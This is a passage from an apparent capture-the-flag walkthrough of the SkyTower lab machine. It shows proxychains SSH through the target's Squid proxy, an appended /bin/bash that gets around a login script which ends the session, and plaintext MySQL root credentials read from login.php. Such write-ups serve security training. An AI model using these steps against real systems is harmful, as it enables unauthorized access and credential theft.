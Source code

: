 Now we can login via SSH using the proxy.

```console
root@kali:~$ proxychains ssh john@192.168.179.175
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
john@192.168.179.175's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 192.168.179.175 closed.
```

The connection is established but we don't get a shell, we can bypass this simply adding **/bin/bash** as follows.

```console
root@kali:~$ proxychains ssh john@192.168.179.175 /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
john@192.168.179.175's password:
id
uid=1000(john) gid=1000(john) groups=1000(john)
```

Now we can execute system commands, in the **/var/www** directory there is a file named login.php that contains the credentials to log into MySQL.

```console
pwd
/var/www
head -n 8 login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}
```

The following one-line instruction lists the available databases.
